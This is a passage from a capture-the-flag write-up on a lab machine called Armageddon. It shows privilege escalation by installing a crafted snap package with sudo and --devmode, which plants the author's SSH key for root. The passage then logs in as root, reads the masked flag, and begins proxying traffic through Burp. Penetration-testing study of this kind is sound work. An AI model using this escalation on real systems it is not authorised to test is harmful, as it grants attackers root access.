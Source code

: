 

Some
[Googling](https://askubuntu.com/questions/822765/snap-install-failure-error-cannot-find-signatures-with-metadata-for-snap)
this error suggested adding `--dangerous`, which now gives a different
error:



    [brucetherealadmin@armageddon shm]$ sudo snap install --dangerous armageddon_0.1_amd64.snap 
    error: snap "armageddon_0.1_amd64.snap" requires devmode or confinement override



Googling that leads to
[posts](https://askubuntu.com/questions/783945/what-is-devmode-for-snaps)
about `--devmode`, which works:



    [brucetherealadmin@armageddon shm]$ sudo snap install --devmode armageddon_0.1_amd64.snap 
    armageddon 0.1 installed



### SSH

If that install worked as I hope, my public key is now in
`/root/.ssh/authorized_keys`, and I should be able to connect with SSH.
It worked:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.233
    Last login: Fri Mar 19 07:56:39 2021
    [root@armageddon ~]# 



And I can get the root flag:



    [root@armageddon ~]# cat root.txt
    a289b09c************************



## Beyond Root

To take a look at that Ruby script, I set a new listener in Burp that
would listen on port 8888 and forward all traffic to 10.10.10.233 port
80:

![](/img/image-20210326161915166.png)
